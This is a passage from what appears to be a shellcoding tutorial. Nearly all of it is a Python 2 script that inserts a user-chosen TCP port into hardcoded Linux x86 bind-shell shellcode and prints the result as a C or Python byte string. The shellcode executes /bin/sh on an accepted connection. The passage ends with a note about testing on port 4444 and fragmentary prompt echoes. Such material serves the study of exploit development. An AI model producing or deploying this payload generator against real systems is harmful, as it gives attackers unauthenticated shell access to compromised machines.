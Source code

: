 ```python
# Check the length of the output hex string
hexStrLen = len(hexPort)
# Check if the hex string is even or odd with modulus 2
oddEven = hexStrLen % 2
# if it returns 1 then it's odd. We need to add a leading 0
if oddEven == 1:
    hexPort = "0" + hexPort
    #print hexPort    # commented out. Used for debugging
# converts the  port number into the correct hex format
tcpPort = "\\x".join(hexPort[i:i+2] for i in range(0,len(hexPort), 2))
print "Your TCP Port in Hex is:","\\x"+tcpPort
nullCheck = deciPort % 256
if nullCheck == 0 :
    print "Your TCP Port contains a Null 0x00."
    print "Try again with a different Port Number."
    exit(0)
#print "\\x"+hexString   # debugging

scPart1 = "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89"
scPart1 += "\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xd2\x52\x66\x68"
#Decimal 4444 = \x11\x5c = 0x115c # debugging
#tcpPort = "\x11\x5c"
scPart2 = "\x66\x53\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89"
scPart2 += "\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
scPart2 += "\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
scPart2 += "\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0\x31\xc9\xb1\x02\xb0\x3f"
scPart2 += "\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
scPart2 += "\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"

# Initiate the Shellcode variable we will output
shellcode = ""

# Add the first part of the tcp bind shellcode
for x in bytearray(scPart1) :
    shellcode += '\\x'
    shellcode += '%02x' %x
# Add the user added tcp port to the shellcode
shellcode += "\\x"+tcpPort
# Add the second part of the tcp bind shellcode
for x in bytearray(scPart2) :
    shellcode += '\\x'
    shellcode += '%02x' %x

print "Choose your shellcode export format."
exportFormat = raw_input("[1] = C Format\n[2] = Python Format\n[1]: ")
if exportFormat == "2" : 
    formatSC = '"\nshellcode += "'.join(shellcode[i:i+48] for i in range(0,len(shellcode), 48))
    print "[-----------------------Your-Shellcode------------------------]"
    print 'shellcode = "'+formatSC+'"'
else :
    formatSC = '"\n"'.join(shellcode[i:i+48] for i in range(0,len(shellcode), 48))
    print "[----------------Your-Shellcode------------------]"
    print ' unsigned char shellcode[] = \\\n"'+formatSC+'";'
```
+ Awesome! Now lets test it with the TCP Port 4444


[1]: 1
[1]: 1